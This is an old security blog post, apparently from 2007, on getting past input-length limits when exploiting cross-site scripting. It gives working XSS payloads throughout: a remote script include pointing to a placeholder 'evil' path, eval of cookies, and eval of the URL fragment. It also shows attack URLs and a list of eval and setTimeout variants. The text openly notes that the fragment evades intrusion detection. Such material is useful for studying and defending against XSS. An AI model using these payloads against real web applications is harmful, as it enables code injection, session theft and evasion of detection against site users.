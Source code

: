 ```yaml
---
title: Playing in Large
author: petko-d-petkov
date: Tue, 06 Feb 2007 14:18:53 GMT
template: post.jade
---
```


> Many times, Web Applications enforce restrictions on the number of characters the user can input. That happens quite often since this is probably the easiest and most obvious way of sanitizing the user input. Overcoming these restrictions, when performing Cross-site scripting attacks, is a challenge, so I am going to discuss a few techniques that I have developed, which prove to be quite useful in various situations.

When you are restricted by the size of input, you have to think about the smallest possible unit that can expand to something that is much bigger. In traditional buffer overflow vulnerabilities attackers take advantage of various packaging techniques. Sometimes, the overflow crack is so small that only 140-160 bites (figuratively speaking) of data can squeeze in. This obstacle is overcome by injecting small piece of binary code that downloads additional, much larger, piece of code (probably an executable). Similar principles apply to Cross-site scripting vulnerabilities. Let's generalize the XSS payload structure in order to find how to squeeze data into a **N** characters long field.

When dealing with Cross-site scripting vulnerabilities we may need to close or fix the markup to the place where the injection occurs. This adds a few characters, so we need to count them as part of the payload. Think about them as a nop sled. If the injection occurs inside an element attribute, you may need to inject something like the following:

	">[payload]<!--

The first two characters will close/fix the markup to the place where the injection occurs. Then the payload follows. After the payload everything else is commented out to ensure that nothing breaks the injected code. This adds four characters at the end.

Most of the time, when more then the maximum characters needs to be inject, attackers go through the extreme situation of including a remote JavaScript file via a `SCRIPT` tag. For example:

	"><script src="http://path/to/evil"></script><!--

This file can be of any size and can contain as much code as we want. However, like overflow vulnerabilities, this technique is fairly restricted in terms of the easily applicable preventing mechanisms against it.

If you imagine that the payload, discussed above, is part of an AJAX worm, the easiest way to fight the malware back is to block access to `http://path/to/evil`. That of course is not the desired effect attackers try to achieve.

In order to bypass the restriction without using external resources you need to look for a way of transmitting information to the exploited target. This can be achieved by setting the cookie wit CSRF, for example, and evaluating its content inside the browser. The following may become our payload:

	"><script>eval(document.cookie)</script><!--

Sneaky! This technique relies on a different vulnerability so it might not be the best way of achieving the desires result.

Fortunately or not, WEB technologies are so flexible that attackers can always find ways to squeeze stuff in the fields they are after. Here is how we can change the payload in order to fit a couple of kilobytes JavaScript code inside 60 characters long field.

	"><script>eval(location.hash.substr(1))</script><!--

The payload above is composed of 55 characters in total. This includes the sled and the end fix. What this snippet does is evaluating everything that is part of the hash (fragment identifier), which is part of the URL. The above payload can be translated into the following imaginative attack URL.

	http://path/to/vulnerable/application?vuln="><script>eval(location.hash.substr(1))</script><!--#**[payload]**

If you replace "**[payload]**" with the code your want to execute then in practice you inject 55 characters into the server side application and the rest is obtained by the client. The server side restriction is bypassed. This attack can be refined to produce even smaller injected payload. For example:

	http://path/to/vulnerable/application?vuln="><script>eval(location.substr(92))</script><!--#**[payload]**

The example above presents a reduced payload that is composed of 48 characters in total. Keep in mind that we are still able to evaluate everything that is after the hash or in simple words; we evaluate everything from the URL after the 92nd character.

Although we are generally discussing how to fit more stuff into a size restricted, unsanitezed field, the techniques presented above are suitable for all kind of situations. In fact, I believe that they are the desired way of performing Cross-site scripting attacks.

You should know that fragment identifier (the hash) is not part of the server request; as such attackers can use it to hide their malicious activities. Every large URL can trigger the Intrusion Detection system. This is something that attackers try to avoid. If the server activities are less suspicious, the chances of somebody discovering the exploit are also greatly reduced.

For testing and demonstration purposes you can use the following list of variations of the attack technique discussed in this article:

```javascript
eval(location.substr(92))
setTimeout(location.substr(92))
```

```javascript
eval(location.hash.substr(1))
setTimeout(location.hash.substr(1))
```

```javascript
eval((''+location).substr(28))
setTimeout((''+location).substr(28))
```

```javascript
eval(location.search.substr(20))
setTimeout(location.search.substr(20))
```
